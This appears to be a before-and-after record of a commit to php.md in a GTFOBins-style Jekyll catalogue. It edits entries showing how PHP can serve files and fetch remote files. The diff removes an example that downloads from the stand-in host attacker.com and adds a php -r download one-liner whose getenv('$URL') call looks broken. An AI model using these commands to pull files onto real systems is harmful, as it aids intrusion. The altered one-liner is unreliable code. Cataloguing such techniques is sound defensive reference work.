

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/php.md, in a window 1280 px wide, cut to the strip 339-842 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update php.md

```diff
--- a/_gtfoud/php.md
+++ b/_gtfoud/php.md
@@ -3,13 +3,9 @@
   server:
     - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
       code: |
-        LHOST=0.0.0.0
-        LPORT=8888
         php -S $LHOST:$LPORT
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
-        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
+        php -r '$c=file_get_contents(getenv("$URL"));file_put_contents(getenv("$LFILE"), $c);'
 ---
```
